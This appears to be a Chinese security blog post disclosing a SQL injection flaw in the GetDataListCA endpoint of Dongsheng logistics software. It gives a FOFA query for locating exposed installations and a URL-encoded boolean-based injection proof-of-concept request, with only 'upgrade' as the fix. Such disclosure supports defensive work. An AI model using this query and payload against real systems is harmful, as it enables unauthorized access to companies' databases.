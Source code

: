 #  东胜物流软件GetDataListCA接口存在SQL注入漏洞  
原创 zz  星络安全实验室   2025-07-13 12:19  
  
<table><tbody><tr><td data-colwidth="576"><span style="color: rgba(0, 0, 0, 0.9);font-family: &#34;PingFang SC&#34;, system-ui, -apple-system, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-size: 16px;font-style: normal;font-variant-ligatures: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: 0.544px;orphans: 2;text-align: justify;text-indent: 0px;text-transform: none;widows: 2;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration-thickness: initial;text-decoration-style: initial;text-decoration-color: initial;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">免责声明:文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，未授权的攻击属于非法行为!文章中敏感信息均已做多层打码处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责作者不为此承担任何责任，一旦造成后果请自行负责</span></span></td></tr></tbody></table>  
  
东胜物流软件是青岛东胜伟业软件有限公司一款集订单管理、仓库管理、运输管理等多种功能于一体的物流管理软件。该系统在GetDataListCA接口存在SQL注入漏洞，攻击者可以通过利用该漏洞获取数据库等敏感信息。  
  
漏洞复现：  
  
fofa：  
```
body="FeeCodes/CompanysAdapter.aspx" || body="dhtmlxcombo_whp.js" || body="dongshengsoft" || body="theme/dhtmlxcombo.css"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVcyeMicaUgQRibicdI4CCkWlFsUmaichQ0ETnWOWZgMXiarriaexSG1dEibEr2K9BibTo59CHdBbKbxeibMK1A/640?wx_fmt=png&from=appmsg "")  
  
poc：  
```
GET /MvcShipping/MsCwGenlegAccitems/GetDataListCA?PACCGID=%31%27%29%20%41%4e%44%20%28%53%45%4c%45%43%54%20%43%41%53%45%20%57%48%45%4e%20%28%36%37%38%32%3d%36%37%38%32%29%20%54%48%45%4e%20%31%20%45%4c%53%45%20%30%20%45%4e%44%29%3d%31%20%2d%2d HTTP/1.1
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVcyeMicaUgQRibicdI4CCkWlFs4EmiasrHYhWbmpXIzibjibURhjfpjN3NnQicF8cdsc4iagzstnZ88UYicDhQ/640?wx_fmt=png&from=appmsg "")  
  
修复详情：  
  
关注厂商动态，升级至安全版本  
  
  

